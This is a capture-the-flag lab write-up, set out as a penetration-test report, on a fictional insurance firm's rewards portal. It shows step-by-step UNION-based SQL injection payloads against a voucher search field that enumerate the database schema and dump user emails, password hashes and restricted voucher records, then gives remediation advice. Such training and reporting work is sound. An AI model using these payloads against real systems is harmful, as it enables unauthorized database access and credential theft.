

# Voucher Vault Challenge

## Lab Description
Redzone, a 600-employee insurance brokerage in Charlotte, launched an internal Rewards portal in early 2024 to replace an HR gift-card spreadsheet. The voucher search feature was built by a contractor and shipped alongside a new redemption tier reserved for the executive floor, while a scheduled security pass was dropped prior to launch. The objective of the assessment was to identify and exploit vulnerabilities in the portal to access restricted data.

## Summary
The **Search Vouchers** functionality (`search.php`) in the Redzone Rewards portal is vulnerable to SQL injection. Because user-supplied input in the `Code` search field is directly concatenated into a backend database query without proper parameterization, an authenticated user can manipulate the query structure using `UNION`-based payloads. This allowed full read access to the underlying **MariaDB** database, exposing user account credentials and restricted executive voucher data.

## Background
SQL injection occurs when untrusted user input is dynamically embedded directly into a database query string rather than being handled separately as data. When the database interpreter processes the resulting string, maliciously crafted characters such as single quotes (`'`) break out of the intended data context and alter the logic of the SQL statement. In this application, the `Code` parameter in `search.php` is interpolated directly into a `SELECT` query, enabling an attacker to append arbitrary `UNION SELECT` statements and extract data from other tables in the database.

## Technical Details & Evidence

I started by exploring the website to understand its structure and test its normal functionalities. During this process, I reviewed the website traffic and identified the **Search Vouchers** functionality as a possible injection point. I then began testing how it handled user input.


My first test was to determine whether the input was being interpreted as part of an SQL query. I started by passing a payload containing a single `NULL` value:

```sql
' UNION SELECT NULL -- -
```


The website returned an error indicating that the query had failed. This suggested that the number of columns in the injected query did not match the number of columns expected by the original query.

I then tested a payload containing three `NULL` values:

```sql
' UNION SELECT NULL,NULL,NULL -- -
```


The website displayed the voucher results, indicating that the injected query was accepted with three columns.

Next, I used the following payload to identify which columns were reflected in the website's response:

```sql
' UNION SELECT 1,2,3 -- -
```


The result helped identify the columns that could be used to display the output of subsequent SQL queries.

Before enumerating the database, I checked the database version by passing:

```sql
' UNION SELECT 1,version(),3 -- -
```


The output revealed that the database was **MariaDB**, specifically `10.11.19-MariaDB-0+deb12u1`.

With the injection point and reflected column identified, I proceeded to enumerate the table names using `information_schema.tables`:

```sql
' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables -- -
```


The output contained a large number of system tables. I reviewed the results and identified application-related tables, including `users`, `admin_vouchers`, `vouchers`, and `redemptions`.


I then checked the columns in the `users` table by passing:

```sql
' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='users' -- -
```

The result showed the available columns in the table. I then retrieved the user records using the following payload:

```sql
' UNION SELECT 1,GROUP_CONCAT(id,email,password_hash,display_name),2 FROM users-- -
```



The output exposed user information, including email addresses, password hashes, and display names. I observed that the password hashes for Alice and Camila are the same, which indicates that they share the same password. I successfully logged in using Camila’s profile page and viewed the account information displayed by the application to see if the flag appears on her account.


After examining the `users` table, no flag was found. I proceeded to inspect the `admin_vouchers` table. I first retrieved its column names using:

```sql
' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='admin_vouchers' -- -
```


The output identified the columns as `id`, `code`, `value`, and `expiry`.

With the column names identified, I retrieved the records from the `admin_vouchers` table using:

```sql
' UNION SELECT 1,GROUP_CONCAT(id,code,value,expiry),3 FROM admin_vouchers -- -
```


The results displayed the voucher records and their associated values. Among the returned data, the flag was exposed in the `value` field.


This confirmed that the SQL injection vulnerability could be used to retrieve sensitive information from the database, including the flag stored in the `admin_vouchers` table.

## Impact

### Proven in this lab
- **Unauthorized database schema and version disclosure:** Extracted the underlying **MariaDB** version (`10.11.19-MariaDB-0+deb12u1`) and enumerated all database tables (`users`, `admin_vouchers`, `vouchers`, `redemptions`) and their column structures.
- **Exposure of employee account records and password hashes:** Retrieved the IDs, email addresses, display names, and bcrypt password hashes for three portal users (`alice@redzone.local`, `bhaskar@redzone.local`, and `camila@redzone.local`), leading to authenticated access to `Camila Herrera`'s account (`9,320 pts`).
- **Access to restricted executive-tier voucher data:** Extracted the contents of the `admin_vouchers` table, exposing the classified voucher record (`WEBVERSE{...}` flag) intended to be restricted from standard users.

## Remediation Advice

1. **Use parameterized queries (prepared statements) for all database interactions:** Update the backend logic in `search.php` (and across the portal) so that user input supplied to the `Code` search parameter is bound as a typed parameter rather than concatenated directly into the SQL query string. Prepared statements ensure the database treats user input strictly as literal data, preventing injected SQL syntax from altering query execution.
2. **Apply supplementary defence-in-depth controls:** The following controls provide additional layers of protection, though they are supplementary and must not be implemented in isolation as a substitute for parameterized queries:
   - **Enforce least privilege on the database account:** Configure the web application's database user so it only has `SELECT`, `INSERT`, or `UPDATE` permissions on the specific application tables it needs, and restrict access to sensitive administrative tables or metadata views where possible.
   - **Implement strict input validation:** Validate search inputs on the server side against an expected format and length (for example, allowing only alphanumeric voucher code characters) before processing the request.
   - **Return generic error messages:** Replace database-triggered failure messages with generic user-facing errors and log detailed SQL exceptions strictly on the server side to avoid confirming query syntax behavior to attackers.
3. **Rotate exposed credentials and audit account activity:** Because password hashes for `alice@redzone.local`, `bhaskar@redzone.local`, and `camila@redzone.local` were exposed and Camila's account was accessed, force password resets for all affected users, invalidate active sessions, and review redemption logs for unauthorized point usage.
